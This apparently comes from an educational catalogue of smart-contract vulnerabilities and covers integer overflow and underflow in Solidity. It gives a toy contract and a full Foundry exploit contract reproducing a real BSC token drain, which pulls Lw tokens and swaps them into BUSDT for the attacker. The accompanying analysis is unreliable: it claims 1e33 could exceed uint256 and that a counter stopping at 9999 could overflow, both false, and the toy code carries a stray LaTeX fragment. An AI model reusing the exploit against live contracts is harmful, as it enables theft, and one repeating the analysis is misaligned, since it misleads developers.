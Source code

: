 ## Description
This vulnerability was first identified during the attack on BEC tokens [1]. It occurs when the result of a calculation exceeds the maximum or minimum limit of the variable's data type, making it impossible to accurately represent the value. This issue is particularly prevalent in smaller data types. For instance, when a balance reaches the upper limit of  2^256 ,  it resets to zero. Furthermore, division operations on integers in Solidity can introduce rounding errors, which may result in unexpected discrepancies in calculations that require high precision [2]. While these issues may not directly constitute an integer overflow or underflow vulnerability, they can lead to logical flaws in the business logic of smart contracts.
## Toy Example
```Solidity
Overflow,Underflow in Solidity} ,label={lst:overflow}]
contract IntegerOverflowExample {
    mapping(address => uint256) public balances;
    uint256 public constant MAX_UINT = type(uint256).max;
    function deposit(uint256 amount) public {
        require(amount > 0, "Amount must be greater than zero");
        balances[msg.sender] += amount; // Possible overflow if not checked
    }
    function withdraw(uint256 amount) public {
        require(amount > 0, "Amount must be greater than zero");
        require(balances[msg.sender] >= amount, "Insufficient balance");
        balances[msg.sender] -= amount; // Underflow risk if unchecked
    }
    function forceOverflow() public {
        balances[msg.sender] = MAX_UINT; // Assign max value
        balances[msg.sender] += 1; // This would have caused overflow in older Solidity versions (<0.8.0)
    }
}
```


## Real-World Example
Date Identified: 08/07/2024

Lost: ~7K USD

Highlighted Line: Lw.transferFrom(address(Lw), address(this), 1_000_000_000_000_000_000_000_000_000_000_000);
 
•	Potential Integer Overflow:
o	The value 1_000_000_000_000_000_000_000_000_000_000_000 is extremely large and could exceed the storage capacity of uint256, especially if the Lw contract does not implement overflow protection.
o	If the Lw contract is written in an older version of Solidity (prior to 0.8.0) or does not use a library like SafeMath, it may allow an overflow to occur, causing the value to "wrap around" to a smaller number, effectively bypassing intended limits.

Highlighted Line: while (i < 9999) {
    swap_token_to_token(address(Lw), address(BUSDT), 800_000_000 ether);
    i++;
}
 
•	Risk of Integer Overflow on i:
o	The variable i is incremented in a loop up to 9999 iterations. If there is an overflow in i (e.g., if i exceeds uint256 storage capacity), the loop may behave unexpectedly, causing unintended or infinite execution.
•	Potential Overflow in Token Amount:
o	The value 800_000_000 ether is passed to the swap_token_to_token function. If this value is further processed in the Lw or BUSDT contracts without overflow protection, it could result in unintended behavior or manipulation of balances.

Below is the smart contract used in the exploitation of the identified vulnerabilities [3].
```Solidity 
pragma solidity ^0.8.10;

import "forge-std/Test.sol";
import "./../interface.sol";

// @KeyInfo -- Total Lost : ~7K USD
// TX : https://app.blocksec.com/explorer/tx/bsc/0x96a955304fed48a8fbfb1396ec7658e7dc42b7c140298b80ce4206df34f40e8d
// Attacker : https://bscscan.com/address/0x56b2d55457b31fb4b78ebddd6718ea2667804a06
// Attack Contract : https://bscscan.com/address/0xfe7e9c76affdba7b7442adaca9c7c059ec3092fc
// GUY : https://x.com/0xNickLFranklin/status/1810245893490368820

contract Exploit is Test {
    CheatCodes cheats = CheatCodes(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D);
    IERC20 WBNB = IERC20(0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c);
    IERC20 Lw = IERC20(0xABC6e5a63689b8542dbDC4b4f39a7e00d4AC30c8);
    IERC20 BUSDT = IERC20(0x55d398326f99059fF775485246999027B3197955);
    address Hackcontract;

    function setUp() external {
        cheats.createSelectFork("bsc", 40_287_544);
        deal(address(BUSDT), address(this), 0);
    }

    function testExploit() external {
        emit log_named_decimal_uint("[Begin] Attacker BUSDT before exploit", BUSDT.balanceOf(address(this)), 18);
        Money Hackcontract = new Money();
        emit log_named_decimal_uint("[End] Attacker BUSDT after exploit", BUSDT.balanceOf(address(this)), 18);
    }
}

contract Money is Test {
    CheatCodes cheats = CheatCodes(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D);
    IERC20 WBNB = IERC20(0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c);
    IPancakePair Pair = IPancakePair(0x88fF4f62A75733C0f5afe58672121568a680DE84);
    IERC20 Lw = IERC20(0xABC6e5a63689b8542dbDC4b4f39a7e00d4AC30c8);
    IERC20 BUSDT = IERC20(0x55d398326f99059fF775485246999027B3197955);
    IPancakeRouter router = IPancakeRouter(payable(0x10ED43C718714eb63d5aA57B78B54704E256024E));
    address owner;

    constructor() {
        owner = msg.sender;
        Attack();
    }

    function Attack() public {
        Lw.transferFrom(address(Lw), address(this), 1_000_000_000_000_000_000_000_000_000_000_000);
        uint256 i = 0;
        while (i < 9999) {
            swap_token_to_token(address(Lw), address(BUSDT), 800_000_000 ether);
            i++;
        }
        BUSDT.transfer(msg.sender, BUSDT.balanceOf(address(this)));
    }

    function swap_token_to_token(address a, address b, uint256 amount) internal {
        IERC20(a).approve(address(router), type(uint256).max);
        address[] memory path = new address[](2);
        path[0] = address(a);
        path[1] = address(b);
        router.swapExactTokensForTokensSupportingFeeOnTransferTokens(amount, 0, path, address(this), block.timestamp);
    }
}
``` 
## References 
[1] Huashan Chen, Marcus Pendleton, Laurent Njilla, and Shouhuai Xu. A survey on ethereum systems security: Vulnerabilities, attacks, and defenses.
ACM Computing Surveys (CSUR), 53(3):1–43, 2020.

[2] Christof Ferreira Torres, Julian Schütte, and Radu State. Osiris: Hunting for integer bugs in ethereum smart contracts. In Proceedings of the 34th
annual computer security applications conference, pages 664–676, 2018.

[3] https://github.com/SunWeb3Sec/DeFiHackLabs
